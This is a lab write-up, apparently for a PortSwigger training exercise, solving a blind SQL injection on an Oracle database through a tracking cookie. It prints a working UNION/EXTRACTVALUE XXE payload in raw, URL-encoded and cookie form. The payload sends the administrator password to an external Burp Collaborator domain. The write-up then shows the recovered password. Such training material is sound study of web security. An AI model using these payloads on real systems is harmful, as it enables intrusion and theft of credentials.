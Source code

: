 
# Blind SQL injection with out-of-band data exfiltration

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user


___
#blind_sql #oracle_database 

step 1

`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--`

Burp Collaborator =>  `8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com`

`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/"> %remote;]>'),'/l') FROM dual--`

URL Encoded =>
`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual`

```sql
TrackingId=bHFIOYPhIvop01kY'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

![screnshot](images/lab17_0.jpg)

step 2

go to burp collaborator
click on Poll now you will see DNS received
`g58q92v0lqm2u03jlayf` is attach with burp collaborator URL which admin password

![screnshot](images/lab17_1.jpg)

To solve the lab
login `administrator` as username and password `g58q92v0lqm2u03jlayf`

![screnshot](images/lab17_2.jpg)